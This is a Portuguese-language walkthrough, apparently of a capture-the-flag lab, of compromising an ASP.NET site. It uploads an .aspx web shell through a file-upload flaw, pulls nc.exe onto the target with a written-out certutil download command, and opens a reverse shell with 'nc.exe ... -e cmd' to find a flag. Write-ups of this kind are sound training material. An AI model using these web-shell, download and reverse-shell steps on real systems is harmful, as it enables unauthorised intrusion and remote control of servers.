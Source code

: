 
# Depois de levantar informações específicas como o lugar onde tem uma falha para upar arquivos e deletar, o lugar onde esses arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo: tudo favorável para subir o shell.

## Contexto para subir o shell:
Sabendo que a tecnologia do site é ASP.NET, podemos procurar um Shell que seja `.ASPNET.aspx`, upar no servidor e acessar ele para injetar comandos.

1️⃣ - Procurar no Google o Shell: `github: shell for ASP.aspx`  
2️⃣ - Desligar o antivírus do computador.  
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)

3️⃣ - Salvar esse shell no arquivo `.aspx`.  
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)

💻 Com ele em mãos, é só subir no servidor e acessar.

Acessando o local que descobrimos no DIRSEARCH que é o `magnam` (faz o trabalho do banco de dados).  
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)

⬆️ Upando arquivo:  
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)

✅ Arquivo UPADO, só acessar agora:  
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)

🔎 Acessando o arquivo:  
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)

⚠️ `shell.aspx` subiu, porém você ainda não tem controle total para navegar nos diretórios e fazer uma enumeração de arquivos.

💡 Próximo passo:  
- Baixar o `nc.exe`.
- Colocar em uma pasta no seu próprio Windows.
- Instalar o Python.
- Colocar o arquivo `nc.exe` lá dentro.
- Iniciar o servidor Python com o `nc.exe` disponível para download.  
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)

📂 Coloquei em uma pasta com o nome "Nova Pasta" e iniciei o servidor Python pelo CMD do Windows.  
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)

📥 Agora para baixar usando o shell que subi, use o comando:

```
certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

O Certutil serve para baixar arquivos no Windows. Como está em um servidor HTTP,
basta informar o IP do seu PC e o nome do arquivo para ele salvar no `users/public`
com o nome `nc.exe`.
```

✅ Depois de rodar o comando, o sistema vai confirmar que deu sucesso:  
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)

📁 Agora é só verificar se ele realmente foi baixado na pasta pública:  
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)

🔊 Arquivo upado, precisamos acessar a shell do nosso Windows. Coloque o `nc` para escutar na porta `4444`:  
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)

⚡ Porta escutando, basta executar o comando:

```
c:\users\public\nc.exe 192.168.100.168 4444 -e cmd

Esse comando executa o `nc.exe`,
passando o IP e a porta para conectar e o `-e` para executar o `cmd` do Windows.
```

📡 Após executar o comando, a porta que está escutando recebe o `cmd`:  
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)

💻 Agora é só fazer a enumeração de arquivos e encontrar a flag do arquivo sensível:  
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)

📦 Arquivo sensível encontrado:  
![image](https://github.com/user-attachments/assets/12899b1c-0cff-4350-b986-3f8b8d5d0c39) 
![image](https://github.com/user-attachments/assets/822f7405-3985-4a8a-80b7-05fbe0a33b31)
